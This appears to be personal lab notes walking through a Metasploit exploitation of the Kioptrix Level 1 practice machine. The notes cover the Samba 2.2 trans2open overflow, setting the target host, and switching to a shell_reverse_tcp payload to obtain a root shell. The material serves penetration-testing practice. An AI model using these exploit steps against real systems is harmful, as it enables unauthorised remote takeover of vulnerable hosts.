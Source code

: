 
- Load up metasploit by typing `msfconsole` in your terminal
- Now previously we did search for vulnerabilities using our terminal using `searchsploit samba2.2`
- we got this: `Samba 2.2.8 (BSD x86) - 'trans2open' Remote Overflow (Metasploit)                                                                                                               | bsd_x86/remote/16880.rb`
- Now once we're in msfconsole, we search for trans2open by typing `search trans2open`
- We get 4 outputs of the same vulnerabilities but for different OS's.
- Owing to the reconnaissance we conducted earlier we know that our machine runs redhat linux in it.
- so we go for option 1 by typing `use 1`
- Then type `options`
- Following this, we set our RHOST or remote host or victim
- To do so. `set RHOSTS <ip>` and then type `exploit`
- We see multiple sessions opening and closing, so interrupt the payload and stop it.
- type `options` again, and this time we can notice this payload option `Payload options (linux/x86/meterpreter/reverse_tcp)`
- So here msfconsole is suggesting you the payload as the payload could be the problem here.
- Type `set payload linux/x86` and then press tab twice to get a list of payload option.
- We can choose one specific non staged payload, ie, `linux/x86/shell_reverse_tcp` and use it. Type `set payload linux/x86/shell_reverse_tcp` and then `exploit`.
- This finally returns us with our shell, and have successfully rooted the machine!
- To confirm type `whoami`, `hostname`, etc.
- we see our confirmation - kioptrix.level1



- You can also manually exploit the machine by using the OpenLuck exploit in github that we noted earlier in our notes.